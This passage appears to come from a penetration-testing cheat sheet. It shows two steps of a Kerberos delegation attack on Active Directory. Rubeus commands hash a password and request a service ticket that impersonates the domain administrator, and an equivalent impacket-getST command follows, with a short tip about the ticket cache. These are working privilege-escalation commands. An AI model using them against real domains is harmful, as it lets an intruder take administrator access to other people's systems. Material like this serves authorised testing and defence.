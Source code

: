 4. convert password to hash
```cmd
.\Rubeus.exe hash /password:password
```

5. get TGT for target host
```cmd
.\Rubeus.exe s4u /user:myComputer$ /rc4:<hash> /impersonateuser:administrator /msdsspn:CIFS/<host> /ptt
```

```bash
impacket-getST -spn cifs/<target> -impersonate administrator '<domain>/myComputer$:password' -dc-ip <dc>
```

:::note alert
KRB5CCNAME would be used even without `-k` flag. Open another shell.
:::